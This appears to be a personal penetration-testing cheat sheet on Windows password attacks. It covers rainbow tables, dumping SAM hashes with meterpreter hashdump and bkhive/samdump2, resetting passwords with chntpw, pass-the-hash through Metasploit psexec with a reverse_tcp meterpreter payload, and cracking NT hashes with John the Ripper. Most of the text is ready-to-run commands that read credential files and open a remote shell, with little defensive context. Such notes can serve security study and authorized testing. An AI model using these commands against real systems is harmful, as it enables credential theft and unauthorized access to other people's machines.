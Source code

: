 
#### Rainbow  Tables

A rainbow table is a table of pre-computed cyphertext <-> plaintext pairs. More information: https://kestas.kuliukas.com/RainbowTables/ .

- Windows XP/Vista/7 RTs: https://ophcrack.sourceforge.io/tables.php
---

#### Windows Passwords

![[Pasted image 20230109214109.png]]
*(What todo with Windows passwords)*

---

#### Stealing Windows Hashes

Both methods require at least an user account with administrative privileges.

**1. Remotly**

Using tools:
- http://foofus.net/goons/fizzgig/pwdump/
- http://foofus.net/goons/fizzgig/fgdump/
- https://ophcrack.sourceforge.io/ (recommended)
or a Meterpreter session:

```
meterpreter> run hashdump
```

**2. Locally & Online**

- Usign pwndump: http://foofus.net/goons/fizzgig/pwdump/ , https://www.tarasco.org/security/pwdump_7/ (v7)
- Using fgdump: http://foofus.net/goons/fizzgig/fgdump/default.htm
- Using ophcrack: https://ophcrack.sourceforge.io/
- Using l0phtcrack: https://l0phtcrack.gitlab.io/ (updated)


**3. Locally & Offline**

Boot a live system before booting the main operating system (in this case Windows). 

```
cd /mnt/sda1/WINDOWS/system32/config
bkhive system syskey.txt
# for Windows 7: bkhive SYSTEM syskey.txt
samdump2 SAM syskey.txt > ourhashdump.txt
cat ourhashdump.txt
```

---

#### Overwriting Windows Hashes

These tools are changing the contents of the SAM file which stores user passwords in form of hashes.

```
chntpw -i /media/[HASH]/WINDOWS/system32/config/SAM
```

---

#### Pass the Hash

Exploitation using Metasploit:

```
msf > use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set LHOST [host]
set LPORT 443
set RHOST [target]
set SMBUser [username]
set SMBPass [password hash]
exploit
```

**Attention:** If a LM (Lan Manager Hash; old) or NT hash is missing it can be set with 32 * 0:

```
set SMBPass 00000000000000000000000000000000:0446385C4CBFBAED9F33E1D7B00E184C
```

---

#### Cracking Hashes

Using John the Ripper: https://www.openwall.com/john/ .
The file format of a hash (NT/LM) to crack with `john` :

```
eLS:0446385C4CBFBAED9F33E1D7B00E184C
[user]:[hash]
```

**Cracking it**

```
john.exe --incremental hashtocrack.txt
```

Other tools that can be used: `ophcrack` (also allows RTs) or Hashcat: https://hashcat.net/hashcat/ .

